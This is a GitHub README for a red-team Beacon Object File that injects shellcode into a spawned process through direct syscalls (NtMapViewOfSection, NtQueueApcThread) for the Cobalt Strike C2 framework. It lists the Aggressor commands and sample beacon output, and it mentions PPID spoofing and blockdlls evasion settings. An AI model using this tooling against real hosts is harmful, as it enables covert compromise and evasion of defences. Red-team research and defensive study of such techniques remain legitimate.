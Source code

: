 ## Spawn with Syscalls Shellcode Injection (NtMapViewOfSection -> NtQueueApcThread) BOF (64-bit only)

NtCreateSection -> NtMapViewOfSection -> NtQueueApcThread -> NtResumeThead.
Uses `BeaconSpawnTemporaryProcess` to create the target process. 

Syscalls generated using @jthuraisamy's [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2), @FalconForce's [SysWhispers2BOF](https://github.com/FalconForceTeam/SysWhispers2BOF) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

Code adapted from @peperunas's [injectopi](https://github.com/peperunas/injectopi/blob/master/CreateSectionAPC/CreateSectionAPC.cpp)

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `static_syscalls_apc_spawn listener_name` - Injects shellcode for beacon into a spawned process. 
- `static_syscalls_apc_shspawn path_to_bin` - Injects custom shellcode into a spawned process.

> NOTE: As we're using the beacon API for process spawn, we're not using syscalls, so bear that in mind. Spawning in this way does give us the spawnto, blockdlls and ppid spoofing settings applied though.  

### Custom shellcode
```
beacon> static_syscalls_apc_shspawn calc.bin
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Reading shellcode from: calc.bin
[+] host called home, sent: 6354 bytes
[+] received output:
Spawned Process with PID: 10480
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_apc_spawn http
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 267710 bytes
[+] received output:
Spawned Process with PID: 8648
[+] received output:
Shellcode injection completed successfully!
```
